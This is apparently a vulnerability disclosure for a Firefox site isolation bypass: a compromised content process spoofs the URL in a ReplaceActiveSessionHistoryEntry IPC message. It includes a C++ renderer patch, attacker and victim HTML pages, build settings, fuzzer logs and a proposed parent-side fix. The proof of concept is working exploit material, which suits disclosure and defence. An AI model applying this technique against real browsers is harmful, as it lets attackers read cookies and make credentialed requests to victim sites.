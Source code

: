 # Site Isolation Bypass in Firefox

A compromised content process can spoof the URL in a `ReplaceActiveSessionHistoryEntry` message to the parent process to create an origin confusion in the parent process, thus bypassing site isolation.

## Cause

The `ReplaceActiveSessionHistoryEntry` function offered by the `PContentParent` IPC interface allows the content process (`PContentChild`) to submit changes to the current history state. It is part of the implementation of the `history.replaceState(state, unused, url)` method of the browser API. For security reasons, `url` must be valid and same-origin to the current URL. However, this security check is only implemented in the content process. An attacker that has exploited a memory bug in the content process and has achieved RCE can send a malicious IPC message to the parent process, that contains a cross-site URL. This can be achieved by replacing `info->mURI` in `auto PContentChild::SendReplaceActiveSessionHistoryEntry(const MaybeDiscardedBrowsingContext& context, const SessionHistoryInfo& info) -> bool`  (in `release/ipc/ipdl/PContentChild.cpp`).
For the following explanation, the website used by the attacker will be `https://attacker.com` and the victim website will be `https://www.victim.com`.

The malicious `ReplaceActiveSessionHistoryEntry` IPC message is processed in `mozilla::ipc::IPCResult ContentParent::RecvReplaceActiveSessionHistoryEntry(const MaybeDiscarded<BrowsingContext>& aContext, SessionHistoryInfo&& aInfo)` in `dom/ipc/ContentParent.cpp`. There, the function `void CanonicalBrowsingContext::ReplaceActiveSessionHistoryEntry(SessionHistoryInfo* aInfo)` (`docshell/base/CanonicalBrowsingContext.cpp`) is called, which replaces the history state.

By sending a `ReplaceActiveSessionHistoryEntry` IPC message with the cross-site URL `https://victim.com` and subsequently calling `location.reload();` the attacker can trick the browser process to load the cross-site document in the current compromised content process associated with the site `https://attacker.com`, thus bypassing site isolation. The attacker still has RCE in the process because the process was not replaced. But the privileged parent process now assigns the site `https://victim.com` to the content process. Thus, the attacker can execute JS in the context of `victim.com` and for example read the cookies from and send credentialed fetch requests to `victim.com`.  We assume a compromised content process for this site isolation bypass, which we simulate by patching the content process code.

The function `SetActiveSessionHistoryEntry` probably also lacks security checks.

## Steps to reproduce (Firefox for Linux)

1. Patch the content process code to simulate the compromised renderer process
    - checkout and build a current version of Firefox (e.g., `c00a6f0cea53ee7b285abb8157f764cecc52dd28`)
    - must not be a debug build, because assertions in the content process detect the bug and crash the process
    - replace the method `PContentChild::SendReplaceActiveSessionHistoryEntry` in the generated `PContentChild.cpp` (`release/ipc/ipdl/PContentChild.cpp` if the attached mozconfig is used) as outlined in patch.txt or #renderer-patch below. The patch modifies the URL of the transmitted `SessionHistoryInfo`.
2. Start two HTTP servers, using 127.0.0.1 for the attacker and 127.0.0.2 for the victim
    - `cd attacker && python3 -m http.server --bind 127.0.0.1 8080` hosting attacker.html
    - `cd victim && python3 -m http.server --bind 127.0.0.2 8080` hosting victim.html
3. Browse the attacker website `./mach run http://127.0.0.1:8080/attacker.html` and observe the processes.
    - in `about:processes` we can observe the attacker process being reused for the victim site
    - observe that the title of the tab that the victim page is loaded in, still shows the URL of the attacker website

attacker/attacker.html:
```html
<!-- attacker page: http://127.0.0.1:8080/attacker.html --->
<html>
  <body>
    <h1>Attacker page</h1>

    <script>
      (async function () {
        await window.history.replaceState("foo", "bar", null);
        await window.location.reload();
      })();
    </script>
  </body>
</html>
```

victim/victim.html:
```html
<!-- victim page: http://127.0.0.2:8080/victim.html --->
<html>
  <body>
    <h1>Victim page</h1>
  </body>
</html>
```

### Renderer Patch

Replace a single function in the generated PContentChild.cpp:
```cpp
// release/ipc/ipdl/PContentChild.cpp

auto PContentChild::SendReplaceActiveSessionHistoryEntry(
        const MaybeDiscardedBrowsingContext& context,
        const SessionHistoryInfo& info) -> bool
{
    UniquePtr<IPC::Message> msg__ = PContent::Msg_ReplaceActiveSessionHistoryEntry(MSG_ROUTING_CONTROL);
    IPC::MessageWriter writer__{
            (*(msg__)),
            this};

    // PATCH
    SessionHistoryInfo newInfo(info);
    nsCOMPtr<nsIURI> uri;
    nsresult rv = NS_NewURI(getter_AddRefs(uri), "http://127.0.0.2:8080/victim.html"_ns);
    newInfo.SetURI(uri);

    IPC::WriteParam((&(writer__)), context);
    // Sentinel = 'context'
    ((&(writer__)))->WriteSentinel(199164678);
    IPC::WriteParam((&(writer__)), newInfo);
    // Sentinel = 'info'
    ((&(writer__)))->WriteSentinel(70058413);

    if (mozilla::ipc::LoggingEnabledFor("PContent", mozilla::ipc::ChildSide)) {
        mozilla::ipc::LogMessageForProtocol(
            "PContentChild",
            this->ToplevelProtocol()->OtherPidMaybeInvalid(),
            "Sending ",
            msg__->type(),
            mozilla::ipc::MessageDirection::eSending);
    }
    AUTO_PROFILER_LABEL("PContent::Msg_ReplaceActiveSessionHistoryEntry", OTHER);

    bool sendok__ = ChannelSend(std::move(msg__));
    return sendok__;
}
```

mozconfig:
```
export MOZ_PACKAGE_JSSHELL=1

ac_add_options --with-app-name=firefox
mk_add_options MOZ_APP_NAME=firefox
mk_add_options MOZ_OBJDIR=@TOPSRCDIR@/release

# Enable ASan specific code and build workarounds
ac_add_options --enable-address-sanitizer

# These three are required by ASan
ac_add_options --disable-jemalloc
ac_add_options --disable-crashreporter
ac_add_options --disable-elf-hack

# Keep symbols to symbolize ASan traces later
export MOZ_DEBUG_SYMBOLS=1
ac_add_options --enable-debug-symbols
ac_add_options --disable-install-strip

# Settings for an opt build (preferred)
# The -gline-tables-only ensures that all the necessary debug information for ASan
# is present, but the rest is stripped so the resulting binaries are smaller.
ac_add_options --enable-optimize="-O2 -gline-tables-only"
ac_add_options --disable-debug
```

## Affected Versions
Discovered in Firefox Linux Version 121. Reproduced in recent Linux build of bookmarks/central (`c00a6f0cea53ee7b285abb8157f764cecc52dd28`). We therefore assume, that all versions since 121 are impacted. Versions before 121 are probably also impacted. Reproduced on Debian Bookworm and Fedora 39 Workstation.
We did not test this on Windows, but since the function that misses a security check is in the part of the code that is not OS-specific, Firefox for Windows is probably also effected.

## Fix
The function `void CanonicalBrowsingContext::ReplaceActiveSessionHistoryEntry(SessionHistoryInfo* aInfo)` (`docshell/base/CanonicalBrowsingContext.cpp`) should include a security check, which verifies that `aInfo->mURI` is valid and same-origin to the current URL. A content process sending a message that fails this check is probably compromised and should be killed.+

# Appendix

- detectable by the leak sanitizer or the process sanitizer
- tested in Firefox 121 & 128 (gecko-dev master be29044bb9265c8e84bf67bf79f351998318e060)
    - reproducible in optimised builds with(-out) ASAN
    - not reproducible in debug builds, attacker renderer crashes

## Steps to reproduce using IPC fuzzer
- start servers: `ATTACKER=vulns/firefox_force_load/attacker VICTIM=vulns/firefox_force_load/victim tmuxp load server_session.yml`
- open seed page and attacker page (in [firefox directory](./firefox-ipc-fuzzing)): `MOZ_LOG="uxss_logger:5" ./mach run http://127.0.0.2:8080/seed http://127.0.0.1:8080/attacker.html`
    - delete profile before repeating: `rm -rf release/tmp/profile-default/`

logs:
```
[Child 1530782: Main Thread]: I/my_ipc_logger IPCFuzzer: ::mozilla::ipc::StandardURLParams spec, replaced url: http://127.0.0.2:8080/victim.html#32154352
[time: 1716296577380009][1530782->1530557] [PContentChild] Sending  PContent::Msg_ReplaceActiveSessionHistoryEntry
```

